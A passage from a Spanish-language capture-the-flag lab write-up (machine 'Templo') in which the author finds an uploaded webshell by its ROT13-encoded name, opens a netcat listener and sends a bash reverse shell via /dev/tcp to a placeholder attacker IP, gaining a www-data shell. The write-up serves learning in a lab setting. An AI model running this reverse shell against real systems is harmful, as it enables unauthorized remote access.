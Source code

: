 Entonces, solamente necesitamos codificar el nombre del archivo que subimos y probar si existe en el directorio `/uploads` que descubrimos antes.

<br>

<h2 id="ROT13">Aplicando Codificación ROT13 y Obteniendo Reverse Shell con Nuestra WebShell</h2>

Para la codificación, podemos aplicarla con **cyberchef** o con el comando **tr**.

Lo haremos con el comando **tr**, pues esta codificación, simplemente cambia la posición de las letras por 13 espacios. 

Por ejemplo, A sería N, B sería O, C sería P y así sucesivamente.

Probémoslo:
```bash
echo "cmd" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
pzq
```

Bien, ahora busquemos ese nombre en el directorio `/uploads`:

<p align="center">
<img src="/assets/images/THL-writeup-templo/Captura13.png">
</p>

Funciona, podemos ejecutar comandos con nuestra **WebShell**.

Primero, abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Vamos a mandarnos una **Reverse Shell** a nuestra máquina, utilizando nuestra **Reverse Shell** de **Bash**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-templo/Captura14.png">
</p>

Una vez que la mandes, observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.70] 52844
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Templo:/var/www/html/NAMARI/uploads$ whoami
whoami
www-data
```
Estamos dentro.
